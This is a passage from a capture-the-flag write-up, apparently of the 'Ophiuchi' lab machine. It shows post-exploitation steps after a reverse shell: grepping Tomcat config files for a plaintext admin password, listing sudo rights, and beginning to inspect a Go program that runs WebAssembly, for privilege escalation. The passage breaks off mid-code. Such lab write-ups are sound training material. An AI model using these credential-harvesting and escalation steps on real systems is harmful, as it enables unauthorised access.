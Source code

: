 And we got our reverse shell successfully!

# Privilege Escalation: WebAssembly formats

Before escalating our privileges to `root`, let's escalate to user `admin`.
<br> I mean, this escalation isn't that hard, password was one of the files in the /opt/tomcat/conf/ folder.

```bash
tomcat@ophiuchi:~$ cat conf/* | grep pass
# passed to checkPackageAccess unless the
# passed to checkPackageDefinition unless the
         analyzes the HTTP headers included with the request, and passes them
      <!-- Use the LockOutRealm to prevent attempts to guess user passwords
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
  you must define such a user - the username and password are arbitrary. It is
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
            <xs:attribute name="password" type="xs:string" />
  <!--                       pass the result to this style sheet residing   -->
  <!--                       pass the result to this style sheet which is   -->
  <!--                        work-around various issues when Java passes   -->
  <!--                        headers passed to the CGI process as          -->
  <!--   passShellEnvironment Should the shell environment variables (if    -->
  <!--                        any) be passed to the CGI script? [false]     -->
        <mime-type>application/vnd.blueice.multipass</mime-type>
tomcat@ophiuchi:~$
```

Checking our super-user permissions with `sudo -l` gives the following:
```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
admin@ophiuchi:~$
```

__/opt/wasm-functions/index.go__
```go
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)


func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
```